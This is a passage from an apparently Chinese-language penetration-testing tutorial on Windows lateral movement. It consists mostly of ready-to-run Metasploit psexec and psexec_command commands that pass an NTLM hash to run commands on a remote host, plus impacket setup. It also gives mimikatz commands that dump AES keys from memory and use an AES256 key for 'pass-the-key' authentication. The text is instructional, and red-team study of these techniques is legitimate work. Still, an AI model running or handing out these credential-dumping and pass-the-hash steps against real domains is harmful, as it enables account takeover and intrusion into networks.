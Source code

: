 **Metasploit：psexec**

开启msf后，直接搜索PsExec，然后use一下密码字段我们直接传递hash值.

```bash
use exploit/windows/smb/psexec
set rhosts 192.168.1.105 # ip
set smbuser administrator # 用户名
set smbdomain ignite # 域名
set smbpass 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 # hash
exploit
```

**Metasploit：psexec_command**

msf中还有一个psexec_command模块，这个模块可以在远程机器上执行命令。

使用效果也很简单，往上加数据就行了

```bash
use admin/smb/psexec_command
set rhosts 192.168.1.105
set subdomain ignite
set smbuser administrator
set smbpass 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38
set command whoami # 执行命令
run
```

[**impacket**](https://github.com/SecureAuthCorp/impacket)

安装impacket 所需模块

```bash
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
python setup.py install
cd impacket/examples
```



#### **ptk**

可以理解为 域控打了 `KB2871997` 补丁后通过 aes256 也可以通过验证。可以理解为将抓取到的 ntlm hash 替换成 aes256进行身份验证。

**mimikatz**

```bash
# 获取用户的 aes key
mimikatz "privilege::debug" "sekurlsa::ekeys"

# 注意查看 aes256_hmac 和 aes128_hmac

mimikatz "privilege::debug" "sekurlsa::pth /user:test /domain:test.com /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288"
```


